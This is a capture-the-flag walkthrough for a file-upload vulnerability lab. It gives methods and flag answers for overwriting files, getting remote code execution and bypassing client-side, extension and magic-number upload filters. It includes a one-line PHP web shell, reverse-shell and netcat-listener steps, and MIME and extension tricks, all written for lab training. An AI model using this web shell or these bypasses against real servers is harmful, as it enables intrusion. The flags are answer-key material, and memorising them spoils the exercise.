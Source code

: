 ### Overwriting existing files

Question 1: What's the name of the image file which can be overwritten?

method: inspect the page of overwrite.uploadvulns.thm 
 
answer: mountains.jpg

Question 2: Overwrite the image. What's the flag you receive?

method: upload a file called mountains.jpg

answer: THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}

### RCE

Question 1: What directory looks like it might be used for uploads?

method: Run a gobuster scan against shell.uploadvulns.thm 
`gobuster -u shell.uploadvulns.thm -w directory-list-2.3-medium.txt`

answer: /resources

Question 2: Get a web shell or reverse shell on the machine. What is the flag
in /var/www?

method 1: Make a webshell file `<?php> echo system($_GET["cmd"]); ?>` and upload to the 
/resources folder. Call the shell with the cmd parameter set:
`shell.uploadvuln.thmn/resources/shell.php?cmd=cat /var/www/flag.txt`

mehtod 2: Upload a php reverse shell (pentestmonkey) with the correct ip and port number to
the /resources folder. Start a netcat listener on your machine on the specified port then 
navigate to `shell.uploadvuln.thmn/resources/reverse-shell.php`

answer: THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}

### Bypassing Client-Side Filtering

Bypass CLient-side filters:

1. Turn off javascript in youre browser
2. Intercept and modify the incoming page top remove the filter
3. Intercept and modify the file upload
4. Send the file directly to the upload point e.g 
`curl -X POST-F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>` 

Question 1: What's the flag in /var/www?

method 1: Using gobuster find the upload directory `/images`. Intercept the response to the 
browser's GET request to load the page and delete the tags for the client side filter js 
file: `<script>client-side-filter.js<script/>`

Upload our reverse shell `shell.php` and set up a netcat listener on our machine then 
navigate to the shell in our browser executing our reverse shell

method 2: Using gobuster find the upload directory `/images`. Rename our shell to shell.png,
upload the renamed file and intercept the upload. Edit the MIME header to `text/x-php` and 
the file extension to .php then navigate to the shell in our browser executing the reverse 
shell

answer: THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}

### Bypassing Server-Side Filtering: File Extensions

1. Determine restrictions on file uploads
2. Try alternate file extensions (.php3, .php4, .php5, .php7, .phps, .php-s, .pht and 
.phar)
3. Try multiple extensions on a file e.g shell.jpg.php

Question 1: What's the flag in /var/www?

method: Using gobuster find the upload directory `/privacy`. Select a reverse shell file 
renamed to use .png extension. Upload the file and intercept the request. Change the MIME 
type to text/x-php and add a .php5 extension to the file. Navigate to the reverse shell
in browser executing the reverse shell

answer: THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}

### Bypassing Server-Side Filtering: Magic Numbers

- Identify file magic numbers with `file`
- Find them on [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
- Change them with `hexeditor`

Question 1: What's the flag in /var/www?

method: Using gobuster find the upload directory `/graphics`. Edit the reverse shell
file with hexeditor, adding the magic number for GIFs. Upload the reverse shell and navigate
to it in browsaer executing the reverse shell

answer: THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}

### Example Methodology


